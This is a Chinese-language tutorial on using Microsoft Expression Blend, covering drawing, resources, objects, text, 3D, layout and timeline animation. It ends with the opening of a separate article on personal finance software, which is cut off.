对于 Project 面板 Files 窗格中包含的各种工程文件，你可以根据需要随时给它重新命名，操作方法是：右键单击想重命名的文件，在弹出的菜单中选择 Rename 命令，然后输入一个新名字。单击一次选中想重命名的文件，然后再一次单击该名字，使之变为可编辑状态，然后输入一个新的名字。

#### 15. 测试工程

在建立工程之前，你可以先测试一下工程，以便检验它能否正确运行，测试的方法是：在 Expression Blend 中打开要测试的工程，单击 Project→Test Project 命令或直接按 F5 键，如果工程没有出现任何错误，它将自动在一个应用程序窗口中打开；如果遇到错误，测试将无法进行，在 Results 面板上会显示错误提示，修复错误后可以再进行测试。

#### 16. 测试活动文档

打开你想要测试的文档，然后进行以下操作：在 Project 面板 Files 窗格下，右键单击想测试的文档，然后单击 Startup。也可以通过单击 Project→Set As Startup 命令来选择启动文档。单击 Project→Test Project 命令或按下 F5 键开始测试。如果没有错误，将在一个窗口中打开测试文档，如果有错误，请在 Results 面板中查看错误，修复之后再进行测试。

#### 17. 建立工程

当工程经测试准确无误后，就可以正式建立一个工程到一个应用程序中。具体操作是：打开工程，单击 Project→Build Project 命令，即可建立一个应用程序，然后打开工程所在的目录，在 \Bin\Debug\ 目录中即可找到建立的应用程序，双击即可运行。

#### 18. 资源管理

资源是一个能够在应用程序中的不同位置重复使用的对象。例如，你可以在一个位置改变一个颜色资源，它可以自动更新引用这个颜色资源的每一个控件的外观。Expression Blend 中的每一项元素都可以被转换成资源，例如，过渡色可以被转换成一个画笔资源，图像控件可以被转换成图像画笔，一个对象的属性值也可以被转换为一个资源值等等。

在 Expression Blend 中可以创建的资源类型有：

对象级资源（Object-Level）：只能够被应用到创建资源的对象或其它子对象上。

文档级资源（Document-Level）：应用到文档上。

应用程序级资源（Application-Level）：应用到 app.xaml 文件上，而且能够应用到程序中的任何位置。

字典级资源（Dictionary-Level）：被定义在资源字典文件中，在资源字典中的资源可以应用到应用程序中的任何位置。

- （1）创建资源

无论何时，你都可以从一个存在的属性、样式或模板创建一个新的资源。在 Interaction 面板 Objects And Timeline 窗格中选中一个对象。在 Properties 面板中，单击一个属性旁边的 Advanced Property Options 按钮，在弹出的菜单中单击 Convert To New Resource 命令，出现创建资源对话框（见图13），我们这里选择的是一个画笔的 Fill 属性。在 Resource Name (Key) 中输入名字，这是其它元素可以引用这个资源的名字。在 Define In 下，根据需要进行相关选择。


- （2）应用资源

应用资源到一个对象或属性的操作步骤如下：在 Objects And Timeline 窗格中，选中你想要应用资源的对象。然后根据情况进行相关操作。

- （3）删除资源

从一个对象或属性中删除资源的操作如下：在 Objects And Timeline 窗格中，选中要删除资源的对象。然后根据情况进行相关操作。

注意：从一个对象或属性中删除一个资源，它并不会从你的工程中删除资源。如果想从工程中删除资源，可以进行如下操作：在 Resource 面板上，右键单击要删除的资源。在出现的菜单中，单击 Delete 命令，该资源被从文档中删除。

- （4）修改资源

使用 Resource 面板修改资源。在 Resource 面板上，可以进行以下操作：

如果编辑一个颜色或画笔资源，请在资源名称旁边的颜色卡上单击，弹出颜色或画笔编辑器，然后进行修改即可。

如果编辑一个样式资源，请双击资源或单击 Edit Resource 按钮，进入样式编辑模式进行编辑。

使用属性面板修改资源。如果一个属性引用了一个资源，你可以从 Properties 面板中编辑资源，方法是，在 Properties 面板中，单击属性旁边的 Advanced Property Options 按钮，然后在弹出的菜单上单击 Edit Resource 命令。

如果资源是一个样式，Expression Blend 将进入样式编辑模式。

如果资源是一个颜色或画笔，将出现 Edit Resource 对话框。

- （5）重命名资源

在 Resource 面板上，单击想改变名字的资源，直至它变成可编辑。输入一个新名字，然后按 Enter 键。如果有很多对象引用这个资源，会出现一个弹出窗口，列出引用这个资源的对象。你可以根据需要选择相关操作。

- （6）移动、复制或输出一个资源

在 Resource 面板中可以非常方便地进行资源的移动和复制，如果你想输出一个资源到另一个程序，你可能要移动这个资源到一个外部的资源字典。

- （7）创建、导出或导入一个资源字典

因为资源字典被链接到工程中的 app.xaml 文件上，所以资源字典中的资源可以被应用到程序中的任何位置。你可以打包一系列资源到一个资源字典文件，然后就可以在其他程序中重新使用整个文件。

### 六、绘图

Expression Blend 是一个矢量绘图程序，利用它提供的绘图工具可以很方便地绘制出需要的矢量图形、路径和遮罩。Expression Blend 中提供的绘图工具具有矩形、椭圆、直线、铅笔、钢笔、选择和直接选择七种，这些工具都在工具箱中。在 Expression Blend 中，有形状和路径两种对象。形状（例如矩形、直线、圆形）是矢量对象，路径是一系列连接在一起的直线和曲线，路径可以被组合和修改。

#### 1. 绘制图形

在工具箱中，选中直线、矩形或椭圆工具。在艺术板上拖动鼠标就可以绘制出一个图形。

注意：按住 Shift 键，然后拖动矩形工具将绘出一个正方形，拖动椭圆工具将绘出一个正圆，拖动直线将画一个有 15 度角的直线。

按住 Alt 键，然后拖动鼠标绘图，将从图形中心向外绘图，而不是从图形的左上角开始绘图。

#### 2. 绘制曲线

在工具箱中选中 Pen 工具。在艺术板上单击画出第一个节点。再一次在艺术板上单击，添加第二个节点，单击产生第二个节点时按住鼠标不松开，然后上、下、左、右拖动来创建一个希望的曲线。重复步骤 3，可以继续添加新的曲线节点。

#### 3. 绘制自由路径

在工具箱中选中 Pencil 工具。按住鼠标在艺术板上拖动就可以绘制出一个自由路径，就像用真实的铅笔在纸上绘图一样。

#### 4. 将形状转换为路径

形状被转换为路径后，就可以像其他路径一样可以被编辑。在工具箱中选中 Selection 工具。在艺术板中单击选中要转换为路径的形状。单击 Object → Path → Convert To Path 命令。

#### 5. 将矩形变成圆角矩形

用 Rectangle 工具绘制的矩形都是直角的，通过下面的方法，我们可以把直角变成圆角。在艺术板上，选中要编辑的矩形。将鼠标放在矩形左上角伸出矩形的点线上的任何一个终点，鼠标变成一个内带加号的矩形样。按住鼠标上、下、左、右拖动即可改变角的半径，让直角变为圆角（见图 14）。

提示：按住 Shift 键拖动，可以只改变 X 轴或 Y 轴半径。



#### 6. 删除路径片断

有时根据需要可以删除整个路径中的某一段，操作方法如下：在工具箱中选中 Direct Selection 工具。在艺术板上单击要删除的路径片断，选中它。然后右键单击这个路径片断，在弹出的菜单中选择 Delete 命令，即可删除片断。重复以上操作，可以删除其他片断。

#### 7. 在路径上添加/删除节点

- (1) 向一个已存在的路径中添加节点

在工具箱中，单击 Selection 工具，然后在艺术板中单击你想添加节点的路径，选中它。在工具箱中，单击 Pen 工具。将鼠标移到路径上，鼠标变成带 + 号的钢笔样，表示你可以添加节点，在路径上单击即可添加一个节点。重复步骤 3 可以给路径添加多个节点。

- (2) 从路径中移除节点

在工具箱中选择 Selection 工具，然后在艺术板上单击想从中移除节点的路径，选中它。在工具箱中，单击 Pen 工具。将鼠标移到路径上，鼠标变成带 - 号的钢笔样，表示可以移除节点，单击可以删除节点。重复步骤 3 可以删除多个节点。

#### 8. 改变曲线的形状

在工具箱中选择 Direct Selection 工具。单击曲线上的任意一个节点，然后拖动节点就可能改变曲线的形状。

#### 9. 组合形状或路径

在 Expression Blend 中，可以将多个形状或路径组合为一个对象，方法是：在艺术板上选中两个或更多的路径或形状。单击 Object → Combine 命令，在子菜单中根据需要进行相关选择。

#### 10. 创建或释放一个混合路径

当你创建一个混合路径时，任何路径的交叉部分将在结果中被减去，这对于组合多个路径创建一个新对象时很有用（见图 15）。


- (1) 创建一个混合路径

选中两个或更多你想将它们变成混合路径的路径。单击 Object → Path → Make Compound Path 命令。

- (2) 释放一个混合路径

选中混合路径。单击 Object → Path → Release Compound Path 命令。

#### 11. 创建或释放一个剪切路径

剪切路径是一个被应用到另外对象的一个路径或形状，它将隐藏超出了剪切路径范围的对象。

- (1) 创建一个剪切路径

选择你想要变成剪切路径的形状或路径，然后选中你想剪切的对象（可用 Ctrl、Shift 键）。确定剪切路径对象在你想要剪切的对象的前面（见图 16）。单击 Object → Path → Make Clipping Path 命令，下面的对象就被剪切，只显示出剪切形状或路径遮挡的部分（见图 17）。




- (2) 移除一个剪切路径

选中剪切路径。单击 Object → Path → Remove Clipping Path 命令即可。

### 七、对象操作

在 Expression Blend 中，你在艺术板上看到的任何元素都叫做对象，如形状、文本、图像、按钮、布局面板、控件模板等，要想进行应用程序的设计，就必须先了解操作这些对象的方法。

#### 1. 添加/修改对象

- (1) 添加对象

有两种方法可以向艺术板中添加对象：在工具箱中直接双击控件图标。在工具箱中选中控件图标，然后用鼠标在艺术板上拖动进行绘图。

- (2) 修改对象

有下面几种方法用来修改已经创建的对象：

在艺术板中单击选中对象，对象周围的蓝色边框上出现的控点，将鼠标移到这些控点上拖动就可以旋转、翻转、调整大小，移动对象。

在 Objects And Timeline 窗格中选中对象，然后在 Properties 面板中修改属性。

对于动画对象，请参见动画和交互一节中介绍的方法。

#### 2. 重命名对象

在艺术板中选中对象，在 Properties 面板 Name 框中输入新名字。

在 Objects And Timeline 窗格中，右键单击对象，选择 Rename，然后输入新名字。

#### 3. 选择/取消选择对象

- (1) 选择对象

如果对象的容器对象是激活的，在工具箱中单击 Selection 工具，然后在艺术板中单击对象选中它。

如果对象的容器对象没有激活，请在工具箱中单击 Direct Selection 工具，然后在艺术板中单击对象选中它。

在 Objects And Timeline 中，单击对象，然后按 Shift 和 Ctrl 键可以选中相同容器内相邻和不相邻的对象。

单击 Edit→Select All 命令，可以选中根容器对象上的所有对象。

- (2) 取消选择一个或多个对象

在工具箱中选中 Selection 或 Direct Selection 工具，然后按住 Ctrl 键单击对象。

在 Objects And Timeline 窗格中，按住 Ctrl 键然后单击对象。

- (3) 取消选择所有对象

单击 Edit→Select None 命令。

在艺术板上，在空白区域或窗口的标题条上单击，窗口就被选中。

#### 4. 移动对象

在艺术板上选中对象，然后拖动到希望的位置即可。

#### 5. 复制、剪切、粘贴、删除对象

#### 6. 排列对象

利用 Align 命令可以将文档中的多个对象按一定的规则进行排列。

#### 7. 组合/取消组合对象

你可以将多个对象组合为一个整体，然后对它们同时进行选择、移动和变换等操作，就像操作一个对象一样。

#### 8. 改变对象的堆叠顺序

当你向文档中插入一个对象时，这个对象被自动放置在其他对象的上面，可以根据需要改变堆叠对象的顺序。

注意：属性将一直保存在颜料桶中，直到你在属性面板中设置了不同的属性。

### 八、外观

通过属性面板中的 Brushes 和 Appearance 窗格可以改变选中对象的笔划颜色、填充色、透明度和可见性等外观属性。依据选择对象的不同，Appearance 和 Brushes 中的内容也不同。

画笔有三种形式：纯色、过渡色和复合平铺画笔，我们可以根据需要创建自己的画笔资源，以便能够重复使用。

#### 1. 创建画笔或颜色资源

- （1）创建画笔资源

在 Properties 面板 Brushes 窗格下，单击 Solid Color Brush、Gradient Brush 或者 Title Brush 选项，开始设置画笔属性。当你准备好保存画笔时，请单击 Convert Brush To Resource 按钮。在对话框中，Resource Name (Key) 文本框中，输入新资源的名字，在 Define In 中根据需要选择定义资源的位置，可以是应用程序级、对象级、文档级或作为资源字典的一部分。设置完毕，单击 OK 按钮。

- （2）创建颜色资源

在 Properties 面板 Brushes 窗格中，单击 Solid Color Brush 或者 Gradient Brush 选项，在颜色编辑器中选择一种颜色，然后单击 Convert Color To Resource 按钮。在创建新资源对话框中，输入新资源的名字，选择定义资源的级别。设置完毕，单击 OK 按钮。

在 Resource 面板中可以访问刚刚建立的画笔或颜色资源，也可以在 Properties 面板 Brushes 窗格中的 Brush Resources 中看到。

#### 2. 应用画笔到对象

在这里我们以应用到对象的填充和笔划属性为例进行说明，实际上画笔可以应用到画笔的所有属性，如前景、背景、边框、遮罩。

在 Properties 面板 Brushes 窗格中，单击 Fill 或 Stroke，然后单击下面任一种画笔选项：Solid Color Brush、Gradient Brush、Title Brush。你可以通过拾取一种颜色来定义一个画笔，创建一个过渡色或生成一个平铺画笔。另外，你可以单击 Brush Resource 选项，然后选择一个已存在的画笔资源应用到对象上。

#### 3. 改变对象的笔划属性

在工具箱中，单击 Selection 工具，选中对象。在 Properties 面板 Brushes 窗格中，选中 Stroke。在 Appearance 窗格中进行各种操作。

#### 4. 向对象复制或应用属性

- （1）从一个选中对象复制属性并应用这些属性到另外的对象

选中对象或你想要应用属性的对象。在工具箱中单击吸管工具，鼠标变成吸管样。单击想要复制属性的对象，属性将自动应用到对象或在第一步中选中的对象上。

- （2）应用属性

选中对象或你想应用属性的对象。在工具箱中单击颜料桶工具，鼠标变成水桶样。单击你想要从它那里复制属性的对象，将这个对象的属性复制。然后在其他对象上单击，复制的属性状会自动应用到这些对象上。

注意：属性将一直保存在颜料桶中，直到你在属性面板中设置了不同的属性。

# 超级软件教程

#### 5. 添加 / 删除过渡色停靠点

- （1）添加停靠点
在 Properties 面板 Brushes 窗格中，单击 Gradient Brush，然后单击 Linear Gradient Brush 或 Radial Gradient Brush 按钮。在过渡色条上任意位置单击就可以插入一个停靠点。重复以上操作，可以添加多个停靠点。单击停靠点左右拖动可以移动停靠点的位置。

- （2）删除停靠点
单击选中要删除的停靠点，向下拖动它离开过渡条即可删除。

#### 6. 显示/隐藏对象

在工具箱中单击 Selection 工具选中对象。在 Properties 面板 Appearance 窗格中，单击 Visibility 旁边的下拉菜单，选择 Visible（显示）、Hidden（隐藏）或 Collapsed（在艺术板上以最小的状态保持对象）。

#### 7. 改变对象的透明度

在工具箱中单击 Selection 工具，选中对象。在 Properties 面板 Appearance 窗格中，调整 Opacity 的百分比值即可。

#### 8. 向对象添加位图效果

选中要应用位图效果的对象。在 Properties 面板 Appearance 窗格中，单击 Bitmap effect 旁边的下拉按钮，在弹出菜单中进行选择。

### 九. 文本

#### 1. 添加文本

在 Expression Blend 中有 6 种文本控件：Textbox（文本框）、Richtextbox（富文本框）、Textblock（文本块）、Passwordbox（密码框）、Label（标签）、Flowdocumentscrollviewer（流文档滚动查看），这 6 种控件都包含在工具箱中的文本按钮上，我们可以根据需要选择。

#### 2. 格式化文本

选中文本控件，然后在 Properties 面板上可以设置文本的各种属性。

#### 3. 编辑文本

在工具箱中选中 Selection 或 Direct Selection 工具，选中要编辑的文本框对象。然后进行以下操作：

- 再次单击文本框，鼠标指针出现在文本框中。
- 右键单击文本框，然后选择 Edit Text 命令。
- 按 F2 键。

#### 4. 创建超链接

在工具箱中，单击 Selection 或 Direct Selection 工具。单击选中你想要添加一个超链接的 Richtextbox 或 Textblock 对象，然后右键单击该对象，选择 Edit Text 命令。可进行相关操作。

在 Properties 面板 Text 窗格中，在 Font 标签页上，单击 Hyperlink 按钮。出现创建超链接对话框，在 Hyperlink Text 中输入超链接文字，在 Hyperlink URI 中输入 URL，然后单击 OK 按钮。

#### 5. 添加对象到文本流

在 Expression Blend 中，Richtextbox、Textblock、Label、Flowdocument Scrollviewer 文本控件可以包含其他对象，如图片、形状和其他文本控件。当你向这些文本控件中添加对象后，你可以在文本中拖动对象到任意位置。

#### 6. 将文本转换为路径

将文本转换为路径后，完整的文本块变成一个个单一的路径，每一个字符都是一个路径。你只能将包含在 Textblock 或 Richtextbox 中的文本转换为路径。

选中 Textblock 或 Richtextbox 对象。单击 Object → Path → Convert To Path 命令。如果想让每个字符成为一个路径，请单击 Object → Path → Release Compound Path 命令。

### 十. 多媒体

Expression Blend 支持声音、图像、视频等多媒体文件，其中支持的声音、视频格式是 Windows Media Player 10 支持的格式，所以为了让 Expression Blend 能够顺利操作多媒体文件，必须安装 Windows Media Player 10。对于插入到文档中的声音和视频，可以用 Objects And Timeline 中的播放控件来控制它的播放。

#### 1. 向工程添加声音、图像或视频

单击 Project → Add Existing Item 命令，打开添加已存在项目对话框。选中要添加的多媒体文件，单击“打开”按钮，多媒体文件就会出现在 Project 面板中的 Files 目录中。

#### 2. 向活动文档中插入一个声音或视频文件

在 Project 菜单中单击 Add Existing Item 或 Link to Existing Item 命令。打开添加项目对话框，选中要添加的声音或视频文件，单击“打开”按钮，文件就出现在 Project 面板 Files 目录中。在 Project 面板 Files 目录中，右键单击要插入的文件，单击 Insert 命令，或者直接双击文件，都可以将文件插入到文档中。在 Objects and timeline 窗格中可以看到插入的声音或视频文件，利用时间线顶部的播放控件可以控制多媒体文件的播放。

#### 3. 删除多媒体文件

在 Objects and Timeline 窗格中，单击要删除的声音、图像或视频文件，然后按 Delete 键，将从艺术板上删除文件，同时删除时间线上有关联的关键帧。按 Ctrl + Z 恢复删除。

注意：以上的删除操作并不会从 Project 面板的 Files 目录中删除该文件，如果想从 Project 面板中移除一个文件，请在 Project 面板中右键单击文件，选择 Remove 命令，将从 Project 面板中移除文件，但它并不是从 Project 中永久地删除文件。如果想永久地删除文件，请在 Project 面板中右键单击文件，选择 Delete 命令。

### 十一、对象变换

在 Expression Blend 中，可以很简单地变换矢量对象和文本对象，变换的操作有：改变位置、移动、调整大小、旋转、缩放、扭曲、翻转等。你可以通过两种方法来进行变换对象的操作：

精确变换。在 Properties 面板 Transform 窗格中，利用改变属性值来准确调整对象。

自由变换。用选择工具在艺术板上选中对象，在对象周围显示一个边框和控点，用这些变换控点可以很方便地变换对象：

#### 1. 旋转对象

##### （1）精确旋转对象

用 Selection 或 Direct Selection 选择工具选中对象。在 Properties 面板 Transform 窗格中，单击 Rotate 标签。用下面的方法旋转对象到希望的角度：

- 在小圆环图标上拖动鼠标。
- 在 Angle 框中输入数值。正数表示顺时针旋转，负数表示逆时针旋转。

##### （2）在艺术板上自由旋转对象

用 Selection 工具选中对象。移动鼠标指针到对象边框的某个角上，鼠标变成双箭头旋转样。拖动鼠标旋转对象。

#### 2. 调整大小和缩放对象

这是两种不同的改变对象大小的方法。Resizing（调整大小）只改变对象的大小（高度、宽度），Scaling（缩放）不但改变对象的大小而且改变对象的其他属性值。调整大小可以在属性面板 Layout 中进行设置，或在艺术板上用鼠标拖动对象的边框来改变大小；缩放操作只能在属性面板的 Transform 中设置属性，在艺术板上拖动对象边框是不可能缩放对象的。

#### 3. 扭曲对象

用 Selection 或 Direct Selection 选择工具选中对象。在 Properties 面板 Transform 窗格中，单击 Skew 标签。在 X、Y 框中输入数值（以像素为单位）。

#### 4. 翻转对象

##### （1）通过设置属性翻转对象

用 Selection 或 Direct Selection 选择工具选中对象。在 Properties 面板 Transform 窗格中，单击 Flip 标签。单击 Flip X Axis 按钮，水平翻转对象；单击 Flip Y Axis 按钮，垂直翻转对象；对于三维模型，单击 Flip Z Axis 按钮。

##### （2）使用菜单命令翻转对象

用 Selection 或 Direct Selection 选择工具选中对象。单击 Object → Flip 命令，在子菜单中选择 Horizontal（水平）或 Vertical（垂直）命令。

#### 5. 偏移对象位置

在 Blend 中可以将对象相对于它原始的位置偏移一定的距离。用 Selection 或 Direct Selection 选择工具选中对象。在 Properties 面板 Transform 窗格中，单击 Translate 标签。在 X、Y、Z 中输入希望偏移的像素值，其中 Z 值只用于 3D 对象。

#### 6. 改变对象的中心点

在旋转或翻转对象时，对象相对于一个固定点移动，这个点就叫对象的中心点。默认情况下，中心点是对象的中心位置，你可以根据需要改变它的位置。

用 Selection 或 Direct Selection 选择工具选中对象。根据需要进行以下操作：

- 在艺术板上，移动鼠标到对象中心点上，鼠标变成四个方向箭头样，拖动它到新的位置即可。
- 在 Properties 面板 Transform 窗格中，单击 Translate 标签，在左侧的中心点图上，在你想要的位置上单击自己的正方形点即可，也可以单击 Center Point 标签，输入 X、Y、Z 值（以像素为单位）。

### 十二、3D对象

在 Expression Blend 中可以导入 Obj 格式的 3D 内容，利用 Expression Blend 提供的工具可以用来创建、修改三维模型对象。3D 内容包含在一个 Viewport3D 控件中。一个 3D 对象包括：Viewport 3D 控件、Camera（摄像机）、Light（灯光）、Material（材质）。在属性面板中可以修改 3D 对象的材质、灯光、摄像机属性，以便产生你需要的效果。

#### 1. 导入 3D 内容

首先用其它 3D 图像创作工具（如 3D Max、ZAM 3D）设计一个 3D 对象，然后导出为 .obj 格式，同时将材质文件 (.mtl) 也导出。在 Expression Blend 中，新建一个工程。单击 Project 菜单，选择 Add Existing Item 或 Link to Existing Item 命令。在打开的添加新项目对话框中选中 3D 文件（.obj）和支持的材质文件（.mtl），单击“打开”按钮。在 Project 面板 Files 目录下，右键单击 .obj 文件，然后单击 Insert 命令，将 3D 内容添加到艺术板上（见图 18）。



当 3D 对象添加到艺术板上时，同时也在 Objects and timeline 窗格中创建一个 Viewport 3D 对象，在 Viewport 3D 中包含摄像机和灯光。

#### 2. 将二维图像转换为三维图像

创建一个工程。单击 Project 菜单，选择 Add Existing Item 或 Link to Existing Item 命令，将 2D 图像添加到 Project 文件夹中。在 Project 面板 Files 目录中，右键单击 2D 图像文件，单击 Insert 命令，将图片插入到艺术板中。在工具箱中单击 Selection 工具选中插入的 2D 图像。单击 Tools→Make Image 3D 命令，2D 图像就被转换为一个 Viewport 3D 对象，然后就可以像操作其它 3D 对象一样操作它了。

#### 3. 应用材质

材质包括颜色、纹理等 3D 对象的外观属性，材质直接影响 3D 对象的表面。在 Expression Blend 中包括三种不同类型的材质，即漫反射材质（Diffuse）、放射材质（Emissive）、镜子材质（Specular）。

#### 4. 创建图像或绘图笔作为材质

如果想将图像或绘图作为材质应用到 3D 对象的表面，首先要创建一个画笔颜色资源，任何的画笔资源都可以用作材质，甚至是一个简单的颜色资源。

#### 5. 移动对象

- （1）在二维空间移动对象
在 Objects And Timeline 窗格中，选中要移动的 Viewport 3D 对象，在艺术板上可以看到一个蓝色的边框出现在 3D 对象周围。将鼠标移到 3D 对象中，拖动即可移动对象。将光标移到周围的控点上，鼠标变成缩放、扭曲、旋转样时，就可以像操作 2D 图像中一样缩放、扭曲、旋转 3D 对象。

- （2）在三维空间移动对象
在工具箱中选中 Selection 工具，然后在艺术板中双击 3D 对象，使转换控点出现（见图19）。将鼠标移到 3D 对象上，鼠标变成一个大箭头带一个四个方向的箭头状，然后上下左右拖动即可在水平或垂直方向移动对象。按 ALT 键同时向上或向下拖动 3D 对象，可以让 3D 对象靠近或远离你。在 3D 对象上红色、绿色、蓝色箭头分别表示 X、Y、Z 轴，将鼠标移到每一个轴上时，鼠标会变成旋转或移动位置样，然后旋转或拖动鼠标就可以分别在 X、Y、Z 轴上旋转或平移 3D 对象。



#### 6. 移动摄像机

#### 7. 改变灯光类型

#### 8. 改变灯光颜色

### 十三、布局

Expression Blend 内置了众多的布局面板，利用这些功能各异的布局面板可以让你设计出灵活多样的页面布局，让你的程序界面看起来更美观。

布局面板实际上是一个容器，在其中可以放置各种控件，并且可以灵活调整布局面板内控件的大小、位置和排列方式。在 Expression Blend 中有 5 种基本的布局面板，每一种面板管理一种不同类型的布局，这 5 种基本布局面板是：Canvas(画布)、Dock（停靠）、Grid（网格）、Stack（堆叠）、Wrap（换行）。

除了这 5 种基本布局面板外，Expression Blend 中还有几种布局面板，它们是：Border(边框)、Bullet Decorator（项目装饰工）、Popup（弹出窗口）、Scrollviewer（滚动查看器）、Tab panel（标签页面板）、Viewbox（查看框）、Toolbaroverflowpanel（工具条溢出面板）、Uniformgrid（统一网格）、Virtualizingstackpanel（虚拟堆叠面板）。

### 十四、控件

控件就是应用程序界面上的可视化组件，利用控件可以让用户与应用程序交互变成可能。在 Expression Blend 中，用户可以在艺术板上可视化地操作各种控件，并且可以在属性和交互面板上设置它们的外观和行为。

在工具箱中列出了一些常用的控件，如果想查看所有的控件，请单击 Asset Library（资源库）按钮，弹出资源库对话框（见图20），选中右上角的 Show All 选项可以显示所有的控件，在左边的 Controls 窗中可以选择浏览 System Controls（系统控件）或 Simple Styles（简单样式）。



### 十五、数据

在 Expression Blend 中，应用程序不但可以使用用户输入到列表格中的内部数据，而且可以访问外部的数据源，通过数据绑定，数据源的改变可以及时反映到用户界面中。Expression Blend 支持两种类型的外部数据源：XML 和 CLR 对象。

### 十六、动画制作

Expression Blend 最重要的功能就是创作矢量动画。Expression Blend 具有强大的矢量动画制作能力，利用它，用户不用书写一句代码就可以轻松制作出精彩的动画效果，而且具有极强的交互性能。

Expression Blend 动画是基于时间线的帧动画。每一个动画都是由以时间发展先后顺序排列的一系列帧组成，在编辑过程中，通过对帧序列中的关键帧的制作，可以产生不同的动画和交互效果。

#### 1. 认识时间线编辑器

因为在 Expression Blend 中依靠时间线编辑器来制作动画，所以在制作动画之前要先熟悉它。单击 Window → Animation Workspace 命令，切换到动画工作区，我们就可以在艺术板下部看到对象和时间线编辑面板。

在 Objects And Timeline 面板中，左边是对象列表，右边是时间线编辑区。时间线编辑区一般由若干行组成，每一行对应一个对象，在编辑区中显示出了各个对象对应的动画轨道、动画轨道中的帧、时间标尺和一些控制按钮，下面来了解一下各个部分的作用。

播放控制条：用于播放动画，包括播放 / 暂停、第一帧、最后一帧、上一帧、下一帧五个控制按钮。

Record Keyframe：记录关键帧按钮，单击可以将当前的对象状态记录为一个关键帧。

Playhead Position：播放头位置，可以直接在其中输入数值来精确指定播放头的位置。

播放头：就是时间线上黄色的竖线，表示动画当前帧的时间位置。可以用鼠标拖动来移动位置。

抓取开关：单击可以打开 / 关闭抓取功能。

动画轨道：就是时间线上的一行，表示动画占有的帧数，首尾各有一个小圆圈表示这个动画的首帧和末帧。首帧和末帧之间是白色的动画条。

缩放工具：用于缩放时间线编辑区，可以直接输入数值，也可以用鼠标左右拖动进行缩放操作。

显示 / 隐藏对象：单击眼睛图标在艺术板上隐藏对象，再次单击显示对象。

锁定 / 解锁对象：单击锁定图标出现锁状按钮，可以锁定当前对象，禁止对它进行编辑，再次单击锁状按钮解除锁定。

#### 2. 添加/删除时间线

- (1) 添加时间线
在 Objects And Timeline 面板中，单击 Create New Timeline 按钮（右上角加号）。弹出一个对话框，在 Resource Name(Key)中输入一个新时间线的名字。单击 OK 按钮，就创建一个新时间线。它同时出现在左上角的时间线列表中，以后可以在下拉列表框中选中这个时间线来返回到这个时间线的编辑模式。选择 Default 时间线来退出所有时间线的编辑模式。

- (2) 删除时间线
在 Objects And Timeline 面板中，从下拉列表框中选中你想删除的时间线。单击 Remove Timeline 按钮（右上角的 X 号），这个时间线就被删除，同时返回到 Default 时间线。

#### 3. 操作关键帧

如果向一个时间线中添加关键帧，请在 Objects And Timeline 下拉列表框中选中这个时间线。也可以单击 Create New Timeline 按钮，创建一个新时间线。移动播放头到希望的位置。在艺术板上选中某个对象，然后在 Objects And Timeline 面板中单击 Record Keyframe 按钮，在时间线上出现一个小圆圈，表示在当前位置创建了一个关键帧。

#### 4. 创建一个简单动画

下面我们来创建一个简单直线移动的动画，动画运行时，一个矩形从左向右移动，并慢慢地放大。

单击 File → New Project 命令创建一个新工程。按 F7 键或单击 Window → Animation Workspace 命令切换到动画工作区。单击工具箱中的矩形工具，然后在艺术板上绘制一个矩形，并在 Properties 面板 Brushes 窗格中给矩形填充上红色。在 Objects And Timeline 面板中，单击 Create New Timeline 按钮，出现创建资源对话框，在 Resource Name(Key)中输入一个时间线名字，然后单击 OK 按钮。在 Objects And Timeline 面板中，选中想创建动画的对象，也就是选中我们刚刚创建的矩形对象 Rectangle。单击 Record Keyframe 按钮，在时间线的 0 秒位置处出现一个小圆圈，表示创建了一个关键帧。在时间线中拖动播放头到一个新的位置，例如 3 秒处。在艺术板上拖动矩形对象到屏幕的右边，然后将鼠标移到矩形周围的控点上，拖动鼠标放大矩形到一个合适的程度。程序将自动在 3 秒处创建一个关键帧，并自动记录下对矩形所做的各种属性改变。单击 Objects And Timeline 顶部播放控制条中的 Play 按钮浏览建立的动画。

#### 5. 创建一个沿路径移动的动画

下面我们创建一个圆形沿着绘制的路径进行移动的动画。

单击 File → New Project 命令，创建一个新工程。在工具箱中选中椭圆工具（Ellipse），然后在艺术板上绘制一个椭圆。在 Properties 面板 Brushes 中给椭圆填充上红色。在 Objects And Timeline 面板中，单击 Create New Timeline 按钮创建一个新时间线。在工具箱中，选择合适的绘制路径的工具即可绘制。

例如选择 Pencil 工具，然后在艺术板上绘制一条路径。在 Objects And Timeline 面板中选中这个用铅笔绘制的路径对象（Path），在 Properties 面板 Brushes 窗格中将 Fill 属性设为 No Brush，将 Stroke 属性设为 Solid Color Brush。单击 Object → Path → Convert To Motion Path 命令，出现选择运动路径目标对话框。从列表中选中运动对象的名字，也就是我们上面建立的椭圆对象，单击 OK 按钮，一个运动路径就被建立了。单击 Play 按钮，就可以浏览建立的动画。

### 十七、发布应用程序

在 Expression Blend 中建立好程序后，必须要发布应用程序，然后才能够让其他人使用。发布应用程序的具体操作如下：

在 Expression Blend 中，当一个应用程序全部设计完毕，单击 Project → Build Project 命令，就可以建立好一个应用程序。单击 Project → Explore Project 命令，打开当前工程文件夹，在 Bin\Debug\ 目录下就可以看到建立的 .exe 应用程序文件。将这个文件复制到其它电脑上运行即可。

# 理财“窍门”：个人与家庭理财软件完全教程

文 / 彭文波

现在，随着人们的工作、学习节奏日益加快，收入和支出也开始多元化。每当节日来临的时候，不少朋友都会考虑“潇洒”一番，可打开钱袋时却发现并没有太多可以“挥霍”的余地，看看身边和自己一样收入水平的人，他们的经济情况却像芝麻开花一样节节高升，家里的财务也被打理得井井有条。为什么大家都在努力工作，可挣到的钱总是悄无声息地“溜”走呢？

其实，稍加留心就会发现，尽管许多人有了一定理财意识，但却没能行动起来，很大的原因就是因为理财工作烦琐且枯燥。加上受忙碌的工作所影响，很难将有限的精力再分配到理财上去。当然，能够接受理财专家的指导最理想了，不过，这也得付出一份不薄的佣金。那么，在日常生活中，如何做好个人和家庭的长期理财规划，让手头的每一分钱都能用到实处呢？其实，在理财的起步阶段，可以通过优秀的理财软件来帮助我们改善财务状况。下面，本着从用户钱袋出发的思想，推荐几款简便而实用的个人理财软件，让广大用户能够顺利地找到最合适的“理财助手”。

## 一、个人与家庭理财软件基本情况

所谓个人理财，就是用户确定自己的阶段性生活和投资目标，审视自己的资产分配状况及承受能力，在专家或其他专业工具的指导下调整资产分配和投资，以达到个人资产收益最大化。在这里，理财软件就应该属于其中的专业工具了。目前，市场上关于个人与家庭理财的软件种类非常多，对于不同的用户来说，选择时很容易让人眼花缭乱。下面，从多种角度对个人与家庭理财软件进行功能评价标准上的分析。

### 1. 个人与家庭理财软件的评价标准分析

